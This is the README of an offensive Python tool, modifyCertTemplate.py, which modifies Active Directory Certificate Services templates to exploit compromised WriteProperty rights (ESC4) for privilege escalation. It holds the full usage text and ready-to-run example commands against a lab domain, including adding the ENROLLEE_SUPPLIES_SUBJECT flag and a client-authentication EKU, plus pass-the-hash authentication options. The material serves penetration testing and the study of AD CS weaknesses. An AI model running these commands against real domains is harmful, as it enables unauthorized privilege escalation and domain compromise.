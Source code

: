 # Purpose
This tool is designed to aid an operator in modifying ADCS certificate templates so that a created vulnerable state can be leveraged for privilege escalation (and then reset the template to its previous state afterwards). This is specifically designed for a scenario where `WriteProperty` rights over a template have been compromised, but the operator is unsure which properties the right applies to. In this scenairo, the template's ACL can be queried and the applicable ACE information can be cross-referenced with property GUIDs to determine the modifiable properties.

Associated [blog post](https://www.fortalicesolutions.com/posts/adcs-playing-with-esc4) on the tool and topic.

# Usage
```
usage: modifyCertTemplate.py [-h] -template template name [-property property name] [-value new value] [-get-acl] [-dn distinguished name] [-raw] [-add flag name] [-debug]
                             [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] [-ldaps]
                             target

Modify the attributes of an Active Directory certificate template

positional arguments:
  target                [[domain/]username[:password]

optional arguments:
  -h, --help            show this help message and exit
  -template template name
                        Name of the target certificate template
  -property property name
                        Name of the target template property
  -value new value      Value to set the specified template property to
  -get-acl              Print the certificate's ACEs
  -dn distinguished name
                        Explicitly set the distinguished name of the certificate template
  -raw                  Output the raw certificate template attributes
  -add flag name        Add a flag to an attribute, maintaining the existing flags
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will
                        use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -ldaps                Use LDAPS instead of LDAP
```
# Examples
### Querying a Template or Property Value
Query a certificate template (all attributes)
```
python3 modifyCertTemplate.py -template KerberosAuthentication ez.lab/administrator:pass
```

Query a single attribute from a certificate template
```
python3 modifyCertTemplate.py -template KerberosAuthentication -property msPKI-Certificate-Name-Flag ez.lab/administrator:pass
```

Query the raw values of all template attributes
```
python3 modifyCertTemplate.py -template KerberosAuthentication -raw ez.lab/administrator:pass
```

### Querying ACL Info
Query the ACL for a certificate template
```
python3 modifyCertTemplate.py -template KerberosAuthentication -get-acl ez.lab/administrator:pass
```
Although unrelated to certificate templates, any object's ACL can be queried by providing the object's distinguished name
```
python3 modifyCertTemplate.py -dn "CN=ws1,CN=computers,DC=ez,DC=lab" -get-acl ez.lab/administrator:pass
```

### Modifying a Template
Add the `ENROLLEE_SUPPLIES_SUBJECT` flag to the template's `msPKI-Certificate-Name-Flag` property
```
python3 modifyCertTemplate.py -template KerberosAuthentication -add enrollee_supplies_subject -property msPKI-Certificate-Name-Flag ez.lab/administrator:pass 
```

Update the value of a certificate template attribute (non-list properties)
```
python3 modifyCertTemplate.py -template KerberosAuthentication -property msPKI-Certificate-Name-Flag -value -150994944 ez.lab/administrator:pass
```

Add an EKU to the `pKIExtendedKeyUsage` property
```
python3 modifyCertTemplate.py -template KerberosAuthentication -add "client authentication" -property pKIExtendedKeyUsage ez.lab/administrator:pass 
```

Update the value of a list-formatted attribute (i.e. explicitly set the value of `pKIExtendedKeyUsage`)
```
python3 modifyCertTemplate.py -template KerberosAuthentication -value "'1.3.6.1.5.5.7.3.4', '1.3.6.1.5.5.7.3.2'" -property pKIExtendedKeyUsage ez.lab/administrator:pass 
```

# References, Credits and Other Projects to Check Out!
- [PyWhisker](https://github.com/ShutdownRepo/pywhisker)
- [Certi](https://github.com/zer1t0/certi)
- [StandIn](https://github.com/FuzzySecurity/StandIn)
